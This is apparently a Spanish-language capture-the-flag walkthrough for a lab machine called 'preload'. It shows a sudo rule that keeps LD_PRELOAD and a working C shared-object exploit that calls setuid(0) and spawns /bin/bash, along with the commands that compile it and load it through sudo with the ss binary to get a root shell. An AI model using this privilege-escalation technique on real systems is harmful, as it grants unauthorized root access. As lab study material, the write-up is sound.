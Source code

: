 Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for paul on preload:
    env_reset, mail_badpass, env_keep+=LD_PRELOAD, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paul may run the following commands on preload:
    (root) NOPASSWD: /usr/bin/cat, /usr/bin/cut, /usr/bin/grep, /usr/bin/tail, /usr/bin/head, /usr/bin/ss
```

Vemos que podemos ejecutar varios binarios como el usuario `root`, pero el que mas nos llama la atencion es el `ss` vamos a realizar lo siguiente:

```shell
cd /tmp
```

> exploit.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(void) {
    setuid(0);
    setgid(0);
    // Ejecuta una shell interactiva
    system("/bin/bash");
}
```

Ahora vamos a compilarlo:

```shell
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
```

Establecemos permisos de ejecuccion.

```shell
chmod +x exploit.so
```

Ahora vamos a ejecutarlo de la siguiente forma para que funcione.

```shell
sudo LD_PRELOAD=/tmp/exploit.so ss
exit # Para salir del bucle fork
```

Info:

```
root@preload:/tmp# whoami
root
```
